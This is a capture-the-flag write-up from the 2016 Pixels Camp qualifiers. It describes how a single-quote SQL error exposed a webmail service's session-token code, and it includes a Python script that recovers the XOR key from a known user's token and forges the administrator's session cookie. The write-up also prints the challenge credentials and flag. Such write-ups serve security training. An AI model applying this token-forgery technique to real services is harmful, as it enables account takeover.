

Read Email (Pwnable) | Pixels Camp Security CTF 2016 Qualifiers - Writeup
Posted on October 9, 2016Problem
Hack the Gibson
Now that was a useful IMAP service! When I login it segfaults.
Let's try the credentials on the webmail service instead and see if you can find anything interesting there.
Shay D'Mail
Solution
As soon as we clicked on the Shay D'Mail link we were redirected to this website:
Once we had a username and a password from the previous exercise we tried to enter the service with those credentials. Being them:
Email address: pjsmith
Password: freire7f1
And, we were in:
From this inbox message, we can get another account registered in the Shay D'Mail, Bruce Walters, which btw is the system administrator. It would be nice if we could access his account. The thing is we got nothing about Bruce and brute forcing is not a solution.
So, we went back to the main page and started to look for some vulnerabilities on the page.
First, we looked in the source code trying to find some clues, but there was nothing. Then we tried to check for some SQL Injection in the page.
As so, I tried:
Email address: bruce
Password: something'
And... boom! The debug mode was one! Lucky us!
Now we know about their session mechanism, and if we can generate the session token for Bruce we are in!
The piece of code from generate_session_token(username) is enough to go for it. The only thing that was bothering me was the stream_cipher(user_hash), which would need to be taken care of before we start, I mean, we need to find out which kind of stream_cipher they were using.
My thought was: They are using Python to write their backend, so they might be using some pycrypto library, and from my search, I found that: “Two algorithms are supported by pycrypto: ARC4 and XOR.”. And now we are back to two options: RC4 and XOR. My next thought was immediately: It's an XOR type! :D
So I wrote the following Python script:
from Crypto.Cipher import XOR
import hashlib
from itertools import izip, cycle
user1 = "pjsmith"
user1_session_token = "da32ae0cbb112f74a43dd2bd39b8592bfcfbae57"
user2 = "bruce"
user2_session_token = "" # what we want to find out
def gen_user_hash(username):
user_hash = hashlib.sha1(username).digest()
return user_hash
def generate_session_token(username, s_token):
user_hash = gen_user_hash(username)
return xor_crypt_string(user_hash, s_token).encode('hex')
def xor_crypt_string(data, key):
return ''.join(chr(ord(x) ^ ord(y)) for (x,y) in izip(data, cycle(key)))
def stream_cipher(user_hash, k):
text = user_hash
key = k
obj1 = XOR.new(key)
cipher_text = obj1.encrypt(text)
return cipher_text
# being an XOR we know that we can find the key by doing: key = ciphertext ^ plaintext
# we have the ciphertext which is the session_token
# and we have the plaintext which is the user1 hash
ciphertext = user1_session_token.decode('hex')
plaintext = gen_user_hash(user1)
key = xor_crypt_string(ciphertext, plaintext).encode('hex')
print "Key: " + key
user2_session_token = stream_cipher(gen_user_hash(user2), key.decode('hex')).encode('hex')
print "Bruce session_token: " + user2_session_token
print "Cookie: " + user2 + ":" + user2_session_token
Running that script will give us the session token for the system administrator, Bruce.
bruce:ccbf1fb417b28a6ea609d57af60f725d320e50bb
Setting it up with Firebug will give us access to Bruce's account:

And we finished our exercise, where our answer to the problem would be "vhs bank account".
And the flag of the exercise:
9505fa0676b75f4a20054847ddd72e121b3b4bd3551b07782fb4d5bf48d69874